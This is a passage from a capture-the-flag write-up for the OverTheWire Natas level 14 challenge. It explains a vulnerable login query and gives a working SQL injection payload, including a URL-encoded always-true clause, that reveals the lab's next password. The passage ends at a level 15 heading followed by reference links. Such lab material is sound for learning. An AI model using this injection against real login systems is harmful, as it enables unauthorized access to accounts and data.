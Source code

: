If the query returns one or more row, we get a message  with the password for the next level.

The *GET* in the *if* clause declares the parameter *debug* without checking whether this is a safe query input!

Therefore, while a simple GET query such as:

> http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=pass

returns:

![cyber](http://i.imgur.com/mWhSVxh.png)


A crafted query using [SQL Injection] (SQLi) can return whatever we want :).

#### Crafting the attack:

Without any injection, a regular query with words *admin* and *pass* would look like this:
```
SELECT * from users where username="$(Username)" and password="$(Password)"
```

We want to inject stuff in the middle to make this query do *more things*.

In SQLi, we need to take care of the **"** that is automatically added in the end by the server. The simplest way to do this is by including an **always true clause** at the end of everything. This can be represented by:

```
OR '1'='1'
```

So, for example, the following query would not give any error:

```
SELECT * from users where username="admin" and password="pass" OR "1"="1"
```

Now, we just need to add stuff before OR!

When we craft the right URL, we keep in mind that whitespace will be translated to *%20* and **""** will be translated to *%22*.

Finally, the following URL:

> http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=pass%22%20OR%20%221%22=%221

reveals the password.



[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection



----

## Now the Juice: Scripting Attacks



### Level 15: SQL Injection II


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits